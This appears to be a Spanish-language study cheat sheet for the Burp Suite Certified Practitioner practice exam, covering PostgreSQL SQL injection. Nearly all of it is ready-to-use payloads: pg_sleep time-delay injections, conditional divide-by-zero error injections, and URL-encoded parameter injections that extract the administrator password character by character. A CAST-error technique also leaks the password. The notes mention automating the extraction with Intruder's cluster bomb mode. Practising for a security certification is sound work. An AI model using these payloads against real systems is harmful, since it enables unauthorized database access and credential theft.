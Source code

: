 ### Tips utiles examen Practica BSCP SQLi postgreSQL -> 

Postgre blind: blinds:[https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1](https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1)

![](Pasted%20image%2020250225183736.png)

```js
'||pg_sleep(10)--
';SELECT pg_sleep(5);--
Time delays, use sqlmap or CASE:
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
cluster bomb

//EXAMEN PRACTICA BSCP - error condicional
1 = (SELECT CASE WHEN (1=1) THEN 1/(SELECT 0) ELSE NULL END)
1 = (SELECT CASE WHEN (1=2) THEN 1/(SELECT 0) ELSE NULL END)
//podemos tirar el substring para verificar la password de admin
//ese ataque lo podemos automatizar con intruder cluster bomb
	//payload 1 -> numbers: 0-20 la length de la password
	//payload 2: -> simple list: a-Z-A-Z-0-9 contraseña de ese tipo. 
1 = (SELECT CASE WHEN SUBSTRING(password,1,1)='a' THEN 1/(SELECT 0) ELSE NULL FROM users WHERE username='administrator')--

1+%3d+(SELECT+CASE+WHEN+(SUBSTRING(password,1,1)='a')+THEN+1/(SELECT+0)+ELSE+NULL+END+FROM+users+WHERE+username='administrator')--+-

&organize_by=DATE+%3d+(SELECT+CASE+WHEN+(SUBSTRING(password,1,1)='a')+THEN+1/(SELECT+0)+ELSE+NULL+END+FROM+users+WHERE+username='administrator')--+-


//STAGE 2 SQLi
---------------
SQLINJECTION
--------------->
SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
LIMIT(SELECT CAST((SELECT password FROM users LIMIT 1) AS int)) 
//esta ASI: PARECE QUE TENGA QUE AÑADIRLO CON EL 'LIMIT... SIN EMBARGO SIN EL APOSTROFE FUNCIONÓ.
&order=LIMIT(SELECT+CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int))---
```
